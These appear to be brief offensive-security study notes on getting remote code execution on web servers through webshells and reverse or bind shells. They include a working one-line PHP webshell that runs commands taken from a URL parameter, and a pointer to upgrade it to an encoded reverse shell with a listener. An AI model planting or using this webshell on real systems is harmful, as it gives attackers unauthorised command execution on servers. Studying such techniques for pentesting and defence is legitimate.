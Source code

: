 ## Ways to achive RCE:

#### 1: Webshells

#### 2: Reverse/bind shells

## Backend languages you may encounter: PHP, Python (Django, Flask, etc), Javascript (Node.js)

## Webshells

### Webshells can be used to extend to a reverse shell, but it might be the only option available if:

#### 1: There is a file length limit on uploads

#### 2: Firewall rules prevent any network-based shells

## PHP Webshell example:

### <?PHP echo system($_GET['cmd']); ?>

#### Write reverse shell (URL Encoded, or Base64 encoded) then set up listener and GG!
